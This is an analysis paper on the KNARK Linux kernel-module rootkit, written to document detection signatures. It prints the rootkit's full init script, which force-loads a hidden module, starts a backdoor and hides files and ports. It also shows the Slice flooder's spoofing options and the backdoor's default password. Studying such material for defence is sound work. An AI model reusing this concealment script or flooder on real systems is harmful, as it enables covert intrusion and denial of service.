 Analysis of the KNARK Rootkit 
=============================

by *Toby Miller*


Purpose
-------

The purpose of this paper is to identify signatures related to the KNARK 
rootkit. This paper does not show how to install the rootkit nor does it 
make any comparisons between this rootkit and other rootkits.  This paper 
will attempt to educate the readers on the various signatures and problems 
related to this rootkit.

What is a rootkit?
------------------

A rootkit is a collection of files/programs used by attacker(s) to re-enter 
a network/computer without being detected.  Normally a rootkit will come 
with various .popular. exploits to assist the attacker in the re-entry of 
a system.  Recently, many of the exploits have been related with common 
vulnerabilities found in BIND, Linux line printer, and Washington 
University.s FTP program. 

In addition to the exploits, many rootkits also come with and install 
sniffers.  This is done because attackers want to capture passwords 
from users logging in over the network; a sniffer can do this and 
it.s quite hard to detect.  A rootkit can also change common binaries 
so that a busy administrator will not detect them.  

Common binaries are binaries that can be used to monitor a systems 
operation.  Some of the common binaries are /bin/ps, /bin/ls, /bin/netstat, 
/usr/bin/lsof and /usr/bin/top (this is not a complete list).  Now 
that we have covered rootkit basics, lets look at the rootkit in question. 

 

The KNARK Rootkit     
-----------------

Recently there has been a lot of talk about the KNARK rootkit on the Incidents 
mailing list and many good references (listed at the end of the paper) are 
coming from the list.  I hope that this paper will provide you with some new 
and useful information.  The KNARK rootkit was sent by a friend (some friend 
huh?!) to look at and analyze.  After unzipping the file, I was presented with 
a bunch of files to look through and analyze.  Table 1 lists the files that come 
with KNARK:

List of files that come with KNARK::
 
    Makefile
    apache.c
    Apache.cgi
     backup
    Bj.c
     caine
    Clearmail  
     dmesg
    Dmsg
     ered
    Exec
     fix
    Fixtext
     ftpt
    Gib
     gib.c
    Hds0
     hidef
    Inc.h
     init
    Lesa
     login
    Lpdx
     lpdx.c
    Make-ssh-host-key
     make-ssh-known-hosts
    Module
     nethide
    Pgr
     removeme
    Rexec
     rkhelp
     sl2
    Sl2.c
     snap
    Ssh_config
     sshd_config
    Ssht
     statdx2
    Sysmod.o
     sz
    T666
     unhidef
    Wugod
     zap

 

After looking through some of the files, I decided to install the rootkit. Knark 
comes with a file named exec  when this file is executed a couple of things take place:

#. Creates the directories: /dev/.pizda and /dev/.pula (will not be able to 
   see using ls. Use cd /dev/.pizda).
#. Inserts sysmod.o. This is the module that allows the rootkit too stay 
   hidden.
#. KNARK also makes changes to the rcx.d S99local file. This causes the 
   machine to fail at boot up. 

 
The first thing I did after installation is pull out NMAP and run 
``nmap -sS -p 1-65535 192.168.0.20`` and waited to see what NMAP had too say.  ::

    Starting nmap V. 2.53 by fyodor@insecure.org ( www.insecure.org/nmap/ )
    Interesting ports on sec-linux.lab.sec (192.168.0.20):
    (The 65523 ports scanned but not shown below are in state: closed)
    Port       State       Service
    21/tcp     open        ftp                     
    79/tcp     open        finger                  
    111/tcp    open        sunrpc                  
    113/tcp    open        auth                    
    512/tcp    open        exec                    
    513/tcp    open        login                   
    514/tcp    open        shell                   
    515/tcp    open        printer                 
    3001/tcp   open        nessusd                 
    18667/tcp  open        unknown                 
    31221/tcp  open        unknown                 
     
    Nmap run completed -- 1 IP address (1 host up) scanned in 33 seconds 

Figure 1. NMAP results

Figure 1 tells us a lot (good thing this box is in a lab and not in the wild : ). 
First, we see that there are two (2) ports that are unknown (18667 and 31221).  
Second, we see that this box is lucky it hasn't been rooted at least a dozen times. 

The next step was to run netstat.  Why?  Well, we want to see if netstat 
will call out the same ports as NMAP.  If netstat does not call out the same 
ports then we check the binary for netstat.::

    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 0.0.0.0:79              0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:512             0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:513             0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:514             0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:3001            0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:515             0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:113             0.0.0.0:*               LISTEN      
    tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      
    udp        0      0 0.0.0.0:518             0.0.0.0:*                           
    udp        0      0 0.0.0.0:517             0.0.0.0:*                           
    udp        0      0 0.0.0.0:512             0.0.0.0:*                           
    udp        0      0 0.0.0.0:111             0.0.0.0:*                           
    raw        0      0 0.0.0.0:1               0.0.0.0:*                          

    Active UNIX domain sockets (servers and established)
    Proto RefCnt Flags       Type       State         I-Node Path
    unix  0      [ ACC ]     STREAM     LISTENING     468    /dev/printer
    unix  6      [ ]         DGRAM                    371    /dev/log
    unix  0      [ ACC ]     STREAM     LISTENING     503    /dev/gpmctl
    unix  0      [ ACC ]     STREAM     LISTENING     2126   /tmp/.font-unix/fs-1
    unix  0      [ ]         STREAM     CONNECTED     173    @00000015
    unix  0      [ ]         DGRAM                    2711   
    unix  0      [ ]         DGRAM                    2161   
    unix  0      [ ]         DGRAM                    2130   
    unix  0      [ ]         DGRAM                    462    
    unix  0      [ ]         DGRAM                    394    
    unix  0      [ ]         DGRAM                    383    
 

Figure 2: Netstat results

Figure 2 is the results of a ``netstat -a -n``. The output of netstat tells us that 
the two ports were not identified, so off we go to check the netstat binary. 
Checking netstat binary required three steps:

#. Run strings. This allows us to see if there is a hidden directory stored in 
   the binary.  Checked it and there was no hidden directories.
#. Md5sum. This step is common sense. Compared the computers netstat md5sum 
   to a CD's md5sum and no luck!! Both were the same.
#. Run diff. Yes. . . this is redundant but we have nothing to lose and everything 
   to gain. Unfortunately, the result is the same. Everything checks out OK.
#. In the past if a box had a rootkit installed, an administrator could comb 
   through the binaries and find traces of the rootkit. Not so in this case. 
   The KNARK rootkit actually hides within the kernel making this rootkit almost 
   impossible to find and analyze. How is this being done? Well, attackers are able 
   to do this by using Loadable Kernel Modules (LKM). For anybody who has been 
   in the Linux world you know that LKM.s are pieces of code that can be loaded 
   into the operating system on demand. As a matter of fact it is encouraged that you 
   use LKM.s in order to update your hardware for your OS. BTW, inserting modules 
   into Linux is not that difficult, in fact ``insmod -f`` will do the job. 


KNARK comes with some a few good exploits as well. 

#. *Lpdx* - This is used to exploit the LPR service of Red Hat boxes. Here 
   is what a IDS might see:

   Figure 3: Lpr Signature::

      09:06:19.991789 > 192.168.1.13.2894 > 192.168.0.40.printer: S 4221747912:4221747912(0) win 32120 <mss 1460,sackOK,timestamp 4058996 0,nop,wscale 0> (DF) (ttl 64, id 11263)
      09:06:19.993434 < 192.168.1.13.printer > 192.168.0.40.2894: S 397480959:397480959(0) ack 4221747913 win 32120 <mss 1460,sackOK,timestamp 393475 4058996,nop,wscale 0> (DF) (ttl 64, id 3278)
      09:06:19.993514 > 192.168.1.13.2894 > 192.168.0.40.printer: . 1:1(0) ack 1 win 32120 <nop,nop,timestamp 4058996 393475> (DF) (ttl 64, id 11264)

#. *T666* - Used to exploit BIND 8.2.1.  This exploit is used against Linux 
   and FreeBSD.  A common signature of this tool is there is usually a 
   directory called /var/named/ADMROCKS.  

#. *Wugod* - This is an exploit for Washington University.s ftpd 2.6.0(1) 
   for FREEBSD, Linux (RH 6.2 and SuSe 6.3&6.4).

Slice v2.1+, credits: sinkhole, sacred. Rewritten and 1+ by some lamerz :P

### linux version

 

Usage: ./sl2 <target> <clones> [-f] [-c] [-d seconds] [-p packets] [-s packetsize] [-maxs packetsize] [-a srcaddr] [-l lowport] [-h highport] [-incports] [-sleep ms] [-syn[ack]]

    Target      - the target we are trying to attack.

    Clones      - number of packets to send at once (use -f for more than 6).

    -f          - force usage of more than 6 clones.

    -c          - class C flooding.

    -d seconds  - time to flood in seconds (default 600, use 0 for no timeout).

    -p packets  - packets to send for each clone (if used with -d is ignored). 

-s size     - packet size (default 40, use 0 for random packets).

    -maxs size  - maximum size for random packets.

    -a srcaddr  - the spoofed source address (random if not specified).

    -l lowport  - start port (1024 if not specified).

    -h highport - end port (65535 if not specified).

    -incports   - choose ports incremental (random if not specified).

    -sleep ms   - delay between packets in miliseconds (0=no delay by default).

    -syn        - use SYN instead ACK.

    -synack     - use SYN|ACK.
 

Figure 4: Slice (sl2) help output

As we can see this tool does allow an attacker the chance to randomize his | her packet(s).  This will make detecting a little harder.  

 

09:05:26.655215 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

09:05:26.655701 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

09:05:26.656186 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

09:05:26.656671 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

09:05:26.657156 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

09:05:26.657642 > 192.168.1.13 > 192.168.0.40: (frag 33252:20@256) [tos 0xe8]  (ttl 255)

 
 

Figure 5: Results of Slice

Looking at the help command will not assist us in detecting this program, so I decided to run the DOS.  Figure 5 shows us what slice looks like when it is ran.  Keep in mind that these signatures can change (this depends on the attacker and how the rootkit is installed).

     KNARK comes with many other tools that we have not discussed yet.  The first tool we will cover is gib.c.  This tool listens on port 18667 (takes care of one of the two ports we discovered using NMAP) and comes with a by default it has a password of Error and a ps of updated.  This program is just your typical .backdoor. program.  Next, we have a file called init.  This is a shell script BUT, it explains why this root kit is hard to detect. 

 

#!/bin/sh

unset HISTFILE

export HISTFILE=/dev/null

unset _

/sbin/insmod -f /lib/modules/sysmod.o 1>/dev/null 2>/dev/null

if [ -a /usr/bin/gib ]

then

/usr/bin/gib & 1>/dev/null 2>/dev/null

else

echo "aaa" >>/dev/null

fi

/dev/.pizda/jesuscd -f /dev/.pizda/sshd_config -h /dev/.pizda/ssh_host_key -q 1>/dev/null 2>/dev/null

cd "/dev/.pula" 1>/dev/null 2>/dev/null

./caine >> bashina & 1>/dev/null 2>/dev/null

cd /root

killall -31 gib 1>/dev/null 2>/dev/null

killall -31 jesuscd 1>/dev/null 2>/dev/null

killall -31 caine 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /dev/.pizda 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /dev/.pula 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":79F5" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":48EB" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":2FB5" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A01" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A02" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A03" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A04" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A05" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A06" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A07" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A08" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A09" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0A" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0B" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0C" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0D" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0E" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":1A0F" 1>/dev/null 2>/dev/null

/dev/.pizda/nethide ":029A" 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /usr/bin/gib 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /bin/rtty 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /tmp/pgr 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /var/lock/pgr 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /usr/man/man3/pgr 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /lib/modules/sysmod.o 1>/dev/null 2>/dev/null

/dev/.pizda/hidef /sbin/rootme 1>/dev/null 2>/dev/null

if [ -a /var/spool/uucp/zdn ]

then

/dev/.pizda/hidef /var/spool/uucp/zdn 1>/dev/null 2>/dev/null

 
 

Figure 6: init file

Figure 6 explains everything.  I would like to point out a few important lines in this script.

1)     You can see where the attacker uses insmod .f to install sysmod.o.  Again, this allows the attacker to remain hidden.

2)     He uses killall .31 to hide gib, jessuscd and caine. In order to make them viewable you would have to enter killall .32(There is a link at the bottom of this paper that explains this concept in much more detail.).    

3)     You see many references to /dev/.pizda/nethide. An example is:

/dev/.pizda/nethide ":79F5" 1>/dev/null 2>/dev/null.

 

Well, for all who don.t have enough time to do hex conversions here are the hex to decimal conversions:

48EB = 18667                         1A05 = 6661

79F5 = 31221                         1A06 = 6662

029A = 12213                         1A07 = 6663

1A01 = 6657                     1A08 = 6664

1A02 = 6658                     1A09 = 6665

1A03 = 6659                     1A0A = 6666

1A04 = 6660                     1A0B = 6667

1A0C = 6668                     1A0D = 6669

1A0E = 6670                     1A0F = 6671

Recommendations

To be honest, I have not had enough time to come up with solid solutions related to LKM rootkits.  I did come up with a few that might help.  The first is to run LIDS.  I have not tested LIDS, but I plan to test in the near future.  Second, if you come across a LKM rootkit and you cannot find anything (changed binaries etc..) try upgrading your version(providing your not worried about evidence).  Upgrading won.t remove the rootkit but it should allow you to see what exactly was going on. 

Conclusion

This type of rootkit goes against everything Security Administrators were ever taught.  In the past, rootkits  would hide their tracks by replacing binaries.  Administrators would use known good binaries to find the kits and that was that. With this beast it.s not that simple and neither is the solution.   


